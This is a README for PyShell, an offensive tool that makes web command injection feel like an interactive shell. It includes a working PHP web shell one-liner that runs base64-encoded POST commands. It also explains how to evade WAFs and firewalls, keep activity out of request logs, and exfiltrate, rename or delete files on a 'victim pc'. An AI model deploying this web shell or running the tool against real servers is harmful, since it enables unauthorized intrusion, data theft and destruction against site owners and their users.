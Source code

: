 # PyShell - Shellify Your HTTP Command Injection!

Firewall got you down? Are your reverse-shell connection attempts being
filtered? Are you stuck working solely over HTTP / HTTPS? Then this just might
be just the thing for you.

PyShell exists to make interacting with web-based command injection less
painful. The goal is to make it feel as much like an interactive shell as
possible. Commands are base-64 encoded to help deal with WAFs, and are submitted
as POST requests to be less visible in request logs.

Usage is `python3 pyshell.py URL` where URL points to a script which performs
the command injection, something like this:

```
<?php $r=base64_decode($_POST['cmd']).' '.base64_decode($_POST['opts']); echo `$r` ?>
```

The server-side script should accept the following parameters:
 - `cmd`: the command to be run, base64 encoded
 - `opts`: the options to provide to cmd, also base64 encoded
 - `[timeout]`: optional, denotes the number of seconds to wait for a command

## USAGE DEMO:
![Screencast](pyshell-usage.gif)

## COOL FEATURES:
 - Basic command history (up arrow / down arrow to navigate).
 - Navigate directory tree with `cd [target]` pseudo-command.
 - Exfiltrate files or folders via `get [target]` pseudo-command.
 - Tab completion. (whoa!)

## KNOWN ISSUES:
 - Trying to `cd` into a non-existent directory is not prevented

## MISC NOTES:
Note that you only get output when the command you run exits. Interactive
commands are also unsupported, for reasons that should be obvious -- although if
you ever forget why while using PyShell, we'll consider that a success!

To change the timeout parameter passed with each command, run `settimeout n`. It
defaults to 20. Unless you handle the timeout parameter server side, it does
exactly nothing.

Your command-history is located in `~/.pyshellhistory`.

When exfiltrating data, a tgz file will be created in the `downloads`
subdirectory (which will be created as needed). If you do not have permission to
read a file, the file will simply be omitted in the downloaded archive.

-----------------------------------------------------------------------------------------
## UPDATES
Apart from these above, I made some changes to this project. Below are the differences.
1. fix the problems mentioned of 'cd' to some extent;
2. choose zip which is universal as the format of compressed files;
3. Supports the eval shell of PHP and ASP;
4. Both the attacker pc and the victim pc are able to run on Windows and Linux system;
5. Additional functions: downloading of folders, downloading of big files(users can operate other commands and check the downloading progress while downloading these files), and renaming and deleting of files.

I am a green-hand programmer and I am aware about the efficiency of the code is quite low. If you have some advice to optimize it, please let me know.

### fix on a small bug
